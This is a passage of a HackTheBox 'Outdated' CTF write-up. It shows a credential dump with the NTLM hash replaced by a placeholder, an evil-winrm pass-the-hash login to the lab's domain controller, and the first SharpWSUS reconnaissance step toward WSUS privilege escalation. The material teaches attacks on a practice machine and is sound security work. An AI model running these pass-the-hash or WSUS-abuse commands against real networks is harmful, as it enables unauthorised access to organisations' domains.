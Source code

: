 ```powershell
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <sflowers NTLM hash>
```

We noted from BloodHound that sflowers is able to `PSRemote` in the DC. We can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) tool with `-H` flag specified to get a session with NTLM hash of the user.

```zsh
evil-winrm -u sflowers -H <sflowers NTLM hash> -i dc.outdated.htb
```

![Got user flag!](/assets/hackthebox/outdated/user_flag.png)

# root.txt

## Exploring for WSUS

We noted that WSUS is enabled on the domain, so we can check if it is vulnerable. To do that we have a [SharpWSUS](https://github.com/nettitude/SharpWSUS) tool and a nice [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment) from PayloadAllTheThings. We upload the tool to the DC.

Our first step is to check if it is vulnerable for the attack. We can do it with `locate` parameter.

```powershell
./SharpWSUS.exe locate
```

![Locate vulnerable WSUS server](/assets/hackthebox/outdated/locate_wsus.png)
